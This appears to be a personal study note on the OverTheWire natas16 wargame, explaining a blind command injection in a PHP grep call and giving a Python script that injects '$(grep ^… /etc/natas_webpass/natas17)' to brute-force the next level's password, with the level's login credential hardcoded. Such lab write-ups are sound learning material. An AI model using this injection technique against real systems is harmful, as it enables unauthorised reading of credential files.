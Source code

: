 
2024-07-19 21:01

Source: #overthewire #natas 

Tags: 

 ```
passthru("grep -i \"$key\" dictionary.txt");  # snippet form website source code
```
the key argument is passed in double quotes so it is isolated as its own argument we can't get around that
we can't directly use `$(whoami)` to run commands because the command's output is used as a input for the grep command which is searching in the dictionary 

if we only send in `B` as input because `B` does exist in the password that grep command in the PHP code is filled in with the actual password an argument and it obviously can't find that in dictionary text so we don't see any output here

```
import requests
import re
import string

characters = string.ascii_letters+"0123456789"

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = 'http://natas16.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()

while(len(seen) < 32):
    for ch in characters:
        print("".join(seen)+ch)
        
        response = sessions.post(url,data = {"needle": "anythings$(grep ^" + "".join(seen) + ch + "  /etc/natas_webpass/natas17)"},auth = (username,password))

        content = response.text
        returned = re.findall('<pre>\n(.*)\n</pre>',content)

        if not returned:
            seen.append(ch)
            break
```
### References
